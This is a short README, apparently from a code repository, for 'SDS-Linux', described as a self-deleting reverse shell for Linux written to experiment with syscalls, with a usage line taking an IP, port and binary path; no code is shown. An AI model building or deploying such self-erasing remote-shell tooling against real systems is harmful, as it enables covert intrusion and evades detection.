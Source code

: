 # SDS-Linux
A simple self deleting reverse shell make for linux I made to play around with syscalls

Usage: .\shell [IP] [PORT] [BINARYPATH]
